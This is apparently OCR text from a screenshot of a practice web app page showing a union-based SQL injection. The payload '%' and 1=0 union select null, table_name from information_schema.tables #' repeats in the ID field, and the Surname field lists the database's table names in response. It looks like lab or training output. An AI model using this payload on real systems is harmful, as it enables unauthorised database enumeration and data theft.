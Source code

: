 Surname: time_zone
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: time_zone_leap_second
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: time_zone_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: time_zone_transition
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: time_zone_transition_type
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: transaction_registry
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: user
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: cond_instances
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_current
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_history
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_history_long
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_summary_by_host_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_summary_by_instance
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_summary_by_thread_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_summary_by_user_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_summary_by_account_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_waits_summary_global_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: file_instances
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: file_summary_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: file_summary_by_instance
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: host_cache
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: mutex_instances
